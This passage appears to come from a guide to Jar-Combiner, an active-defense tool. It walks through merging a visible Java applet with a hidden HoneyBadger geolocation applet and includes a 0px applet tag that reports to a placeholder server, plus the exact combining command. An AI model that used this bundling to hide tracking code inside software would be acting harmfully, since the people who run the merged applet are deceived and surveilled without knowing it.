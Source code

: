 The easiest way to determine the entrypoints is by looking at html files made to launch the
applets in question.  Take an html file or webpage that launches one of your Java applets and
view its source.  In the source of the file you should be able to find the `applet` tag.
Inside of this tag, find the parameter `code`.  The value to which the parameter `code` is set,
is your entrypoint for that applet.

For example, the html that launches the HoneyBadger geolocation applet looks something like this:

    <applet code="honey.class" archive="honey.jar" width="0px" height="0px">
        <param name="target" value="target_name" />
        <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php"
    </applet>

So in this case, the path to the entrypoint would simply be `honey.class`.

Example 2: Combining Two jars
-----------------------------

Before beginning this operation, you must have a few items:

  * Two jar files
  * The entrypoints to each jar

The command line arguments are as follows

    -j1 the path to the first jar
    -p1 the path to the entrypoint for the first jar
    -j2 the path to the second jar
    -p2 the path to the entrypoint for the second jar

We have included two jar files in ADHD for your testing convenience.
They are located in /opt/jar-combiner/jars

The first applet is jrdesktop

    -j1 /opt/jar-combiner/jars/jrdesktop.jar
    -p1 jrdesktop/mainApplet.class

The second applet is Honeybadger's geolocation applet

    -j2 /opt/jar-combiner/jars/honey.jar
    -p2 honey.class

To combine the jars first **`cd`** into the Jar-Combiner folder:

`~$` **`cd /opt/jar-combiner/Linux`**

Run Jar-Combiner like so:

`/opt/jar-combiner/Linux$` **`./joining.sh -j1 /opt/jar-combiner/jars/jrdesktop.jar -p1 jrdesktop/mainApplet.class -j2 /opt/jar-combiner/jars/honey.jar -p2 honey.class`**

When this operation is complete a new jar file should appear at `/opt/jar-combiner/Linux/finished.jar`.
This is your combined jar file.

When executed, `finished.jar` will run code from the first applet (jrdesktop) in the foreground,
(with access to the screen) and the second applet (honey) in the background.

Now that the applet has been created, we need to sign it.
